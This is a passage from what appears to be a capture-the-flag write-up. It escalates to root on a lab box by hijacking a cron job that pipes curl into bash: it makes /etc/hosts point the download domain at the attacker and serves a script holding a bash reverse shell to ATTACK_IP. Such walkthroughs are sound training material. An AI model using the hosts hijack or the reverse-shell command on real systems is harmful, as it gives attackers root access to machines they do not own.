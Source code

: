 ```console
james@overpass-prod:~$ cat /etc/crontab
...snip...
# Update builds from latest code
* * * * * root curl overpass.thm/downloads/src/buildscript.sh | bash
```

The job uses curl to download the script from `overpass.thm/downloads/src/buildscript.sh` and pipes it directly into bash for execution. The use of the domain should stand out here - if we can modify `/etc/hosts` or the local DNS cache to resolve requests to `overpass.thm` to our machine's IP, we can host an arbitrary script that will be executed on the box as root. Let's check if the `/etc/hosts` is writeable for james :

```console
james@overpass-prod:~$ ll /etc/hosts && cat $_
-rw-rw-rw- 1 root root 250 Jun 27  2020 /etc/hosts
127.0.0.1 localhost
127.0.1.1 overpass-prod
127.0.0.1 overpass.thm
# The following lines are desirable for IPv6 capable hosts
::1     ip6-localhost ip6-loopback
fe00::0 ip6-localnet
ff00::0 ip6-mcastprefix
ff02::1 ip6-allnodes
ff02::2 ip6-allrouters
```

This is not good. We can now prepare the exploit. First, we replace the `overpass.thm` entry in `/etc/hosts` with the IP of the attack machine (omitted here) :

```console
james@overpass-prod:~$ cat /etc/hosts
127.0.0.1 localhost
127.0.1.1 overpass-prod
ATTACK_IP overpass.thm
...snip...
```

We then create a bash reverse shell at `./downloads/src/buildscript.sh` on the attack machine :

```console
┌──(kali㉿kali)-[/tmp/dead]
└─$ mkdir -p ./downloads/src && cd $_

┌──(kali㉿kali)-[/tmp/dead/downloads/src]
└─$ echo "bash -i >& /dev/tcp/ATTACK_IP/5555 0>&1" > buildscript.sh
```

and set up a http server to serve requests for `buildscript.sh` from the target machine and a netcat listener :

```console
┌──(kali㉿kali)-[/tmp/dead]
└─$ sudo python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```
